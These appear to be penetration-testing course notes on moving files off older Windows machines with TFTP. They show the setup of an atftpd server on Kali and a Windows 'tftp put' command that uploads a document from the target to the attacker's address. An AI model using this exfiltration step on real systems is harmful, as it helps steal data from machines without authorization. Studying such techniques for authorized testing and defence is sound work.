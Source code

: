 

TFTP[1](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/file-transfers/transferring-files-with-windows-hosts/uploading-files-with-tftp#fn1) is a UDP-based file transfer protocol and is often restricted by corporate egress firewall rules.  
  
Useful to transfer files from older Windows operating systems - up to Windows XP and 2003.  
  
This is a terrific tool for non-interactive file transfer, but it is not installed by default on systems running Windows 7, Windows 2008, and newer.  
  
For these reasons, TFTP is not an ideal file transfer protocol for most situations, but under the right circumstances, it has its advantages.  
  
  
Setp on Kali:  
```bash
sudo apt update && sudo apt install atftp  
sudo mkdir /tftp  
sudo chown nobody: /tftp  
sudo atftpd --daemon --port 69 /tftp
```

  
Exectution on Windows:  
```powershell
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
```

 
Passive mode:  
Linux:  
```bash
passive
```  
  
Win:
```powershell
quote pasv
```
